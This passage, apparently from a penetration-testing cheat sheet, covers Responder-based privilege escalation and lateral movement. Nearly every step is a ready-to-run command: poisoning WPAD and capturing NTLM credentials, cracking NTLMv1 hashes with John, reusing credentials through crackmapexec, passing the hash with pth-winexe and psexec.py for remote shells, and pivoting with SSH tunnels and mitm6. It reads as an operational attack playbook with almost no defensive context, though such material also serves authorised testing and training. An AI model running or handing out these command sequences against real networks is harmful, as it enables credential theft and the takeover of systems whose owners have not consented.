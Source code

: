 #### Privilege Escalation

Responder can assist in escalating privileges by capturing credentials that can be used to access higher-privileged accounts or systems.

1. **Capturing Administrator Credentials**: WPAD poisoning is particularly effective at capturing high-privilege credentials as users' browsers are tricked into authenticating.
    ```bash
    responder -I <interface> -w
    ```
2. **Using Captured Credentials for Lateral Movement**: Uses captured credentials to move laterally through the network and escalate privileges on other systems.
    ```bash
    crackmapexec smb target_ip -u captured_user -p captured_password --local-auth
    ```
3. **Exploiting Captured NTLM Hashes**: Captures and cracks NTLMv1 hashes, which can then be used to escalate privileges by authenticating to more critical systems.
    ```bash
    responder -I <interface> -F
    john --format=NTLMv1 responder-Session.log
    ```
4. **Leveraging Captured Hashes for Pass-the-Hash Attacks**: Executes commands on a remote system using captured NTLM hashes, effectively escalating privileges.
    ```bash
    pth-winexe -U 'captured_user%captured_hash' //target_ip cmd.exe
    ```
5. **Harvesting Credentials for Privilege Escalation**: Runs Responder in verbose mode with detailed logging to capture as many credentials as possible for later use in privilege escalation.
    ```bash
    responder -I <interface> -v -l /path/to/logfile.log
    ```

#### Lateral Movement, Pivoting, and Tunneling

Responder facilitates lateral movement and pivoting by capturing credentials that can be used to access additional systems and networks.

1. **Using Captured Credentials for Lateral Movement**: Leverages captured SMB credentials to move laterally within the network, accessing other systems.
    ```bash
    responder -I <interface> -r
    crackmapexec smb target_ip -u captured_user -p captured_password --local-auth
    ```
2. **Pivoting with Captured WPAD Credentials**: Uses WPAD-captured credentials to pivot into different parts of the network, accessing internal resources.
    ```bash
    curl -x http://captured_user:captured_password@target_ip/ http://internal_resource
    ```
3. **Tunneling Through Compromised Systems**: Uses SSH tunneling to route traffic through a compromised system, effectively pivoting to another network segment.
    ```bash
    ssh -L local_port:target_ip:remote_port captured_user@compromised_ip
    ```
4. **Combining Responder with Other Tools for Lateral Movement**: Runs Responder in conjunction with MITM6 to exploit different protocols and move laterally within the network.
    ```bash
    responder -I <interface> -w &
    mitm6 -i <interface> -d <domain>
    ```
5. **Exploiting Captured NTLM Hashes for Pivoting**: Uses captured NTLM hashes to execute commands on other systems, enabling further pivoting within the network.
    ```bash
    psexec.py DOMAIN/captured_user@target_ip -hashes :captured_hash
    ```

